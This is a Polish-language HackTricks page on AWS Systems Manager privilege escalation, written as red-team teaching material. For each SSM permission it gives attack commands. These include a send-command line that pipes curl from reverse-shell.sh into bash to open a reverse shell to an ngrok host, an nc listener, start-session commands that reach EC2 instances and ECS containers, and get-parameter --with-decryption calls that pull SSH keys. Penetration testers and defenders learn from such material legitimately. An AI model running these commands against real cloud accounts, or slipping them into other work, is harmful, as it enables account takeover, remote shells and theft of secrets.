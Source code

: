 # AWS - SSM Privesc

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## SSM

Aby uzyskać więcej informacji o SSM, sprawdź:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Atakujący z uprawnieniem **`ssm:SendCommand`** może **wykonywać polecenia w instancjach** działających z Amazon SSM Agent i **kompromitować rolę IAM** działającą w jej wnętrzu.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"
```
W przypadku, gdy używasz tej techniki do eskalacji uprawnień w już skompromitowanej instancji EC2, możesz po prostu przechwycić rev shell lokalnie za pomocą:
```bash
# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potencjalny wpływ:** Bezpośrednie privesc do ról IAM EC2 przypisanych do działających instancji z uruchomionymi agentami SSM.

### `ssm:StartSession`

Atakujący z uprawnieniem **`ssm:StartSession`** może **rozpocząć sesję podobną do SSH w instancjach** uruchamiających agenta Amazon SSM i **skompromitować rolę IAM** działającą wewnątrz niej.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Aby rozpocząć sesję, musisz mieć zainstalowany **SessionManagerPlugin**: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potencjalny wpływ:** Bezpośredni privesc do ról IAM EC2 przypisanych do działających instancji z uruchomionymi agentami SSM.

#### Privesc do ECS

Gdy **zadania ECS** są uruchamiane z **włączoną opcją `ExecuteCommand`**, użytkownicy z wystarczającymi uprawnieniami mogą użyć `ecs execute-command`, aby **wykonać polecenie** wewnątrz kontenera.\
Zgodnie z [**dokumentacją**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) odbywa się to poprzez utworzenie bezpiecznego kanału między urządzeniem, którego używasz do inicjowania polecenia “_exec_”, a docelowym kontenerem z SSM Session Manager. (Wtyczka SSM Session Manager jest niezbędna do działania tej funkcji)\
Dlatego użytkownicy z `ssm:StartSession` będą mogli **uzyskać powłokę wewnątrz zadań ECS** z włączoną tą opcją, po prostu uruchamiając:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (185).png>)

**Potencjalny wpływ:** Bezpośrednie podniesienie uprawnień do ról `ECS` IAM przypisanych do uruchomionych zadań z włączonym `ExecuteCommand`.

### `ssm:ResumeSession`

Atakujący z uprawnieniem **`ssm:ResumeSession`** może ponownie **uruchomić sesję podobną do SSH w instancjach** uruchamiających Amazon SSM Agent z **rozłączonym** stanem sesji SSM i **skompromitować rolę IAM** działającą w jej obrębie.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potencjalny wpływ:** Bezpośrednie privesc do ról IAM EC2 przypisanych do działających instancji z uruchomionymi agentami SSM i rozłączonymi sesjami.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Napastnik z wymienionymi uprawnieniami będzie w stanie wylistować **parametry SSM** i **odczytać je w postaci tekstu jawnego**. W tych parametrach często **można znaleźć wrażliwe informacje** takie jak klucze SSH lub klucze API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji wewnątrz parametrów.

### `ssm:ListCommands`

Atakujący z tym uprawnieniem może wylistować wszystkie **komendy** wysłane i miejmy nadzieję znaleźć **wrażliwe informacje** w nich.
```
aws ssm list-commands
```
**Potencjalny wpływ:** Znalezienie wrażliwych informacji w liniach poleceń.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Atakujący z tymi uprawnieniami może wylistować wszystkie **polecenia** wysłane i **przeczytać wygenerowany wynik**, mając nadzieję na znalezienie **wrażliwych informacji** w nim.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potencjalny wpływ:** Znajdź wrażliwe informacje w wynikach poleceń.

### Codebuild

Możesz również użyć SSM, aby uzyskać dostęp do projektu codebuild, który jest budowany:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
